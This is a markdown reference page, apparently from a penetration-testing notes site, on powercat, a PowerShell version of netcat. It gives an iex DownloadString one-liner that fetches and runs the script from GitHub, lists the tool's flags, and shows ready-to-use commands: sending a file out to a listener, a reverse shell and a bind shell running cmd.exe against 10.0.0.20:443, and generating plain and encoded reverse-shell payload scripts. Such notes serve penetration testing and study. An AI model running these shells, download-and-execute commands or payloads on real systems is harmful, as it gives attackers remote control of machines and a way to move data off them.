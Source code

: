 ```yaml
---
title : "powercat"
# pre : ' '
description : "Netcat: The powershell version. (Powershell Version 2 and Later Supported)."
date : 2022-09-26T14:49:48+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

Download the `.ps1` here and execute with the command below.

{{%attachments fa_icon_class="fas fa-terminal" pattern=".*(ps1)"/%}}

```plain
. .\powercat.ps1
```

Or invoke directly with `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

## Usage

```plain
powercat [-c or -l] [-p port] [options]
```

## Flags

```plain
  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

## Examples

### Send a file to receiver

* Receiver: `nc -nlvp 443 > out.txt`

```plain
powercat -c 10.0.0.20 -p 443 -i .\testfile.txt
```

### Shells (reverse/bind)

### Reverse shell

* Receiver: `nc -nlvp 443`
* `-e` - specifies the application that is executed once connected

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe
```

### Bind shell

* `-l` - specifies powercat to create a listener
* `-e` - specifies the application that is executed once connected

```plain
powercat -l -p 443 -e cmd.exe
```

Once a connection is received (`nc <ip> 443`) the bind shell will be initiated.

### Payload Generation

### Standalone payloads

* Non-encoded

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -g > reverse-shell.ps1
```

* Encoded (run with `powershell.exe -E`)

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -ge > reverse-shell.ps1
```

## URL List

* [Github.com - powercat](https://github.com/besimorhino/powercat)
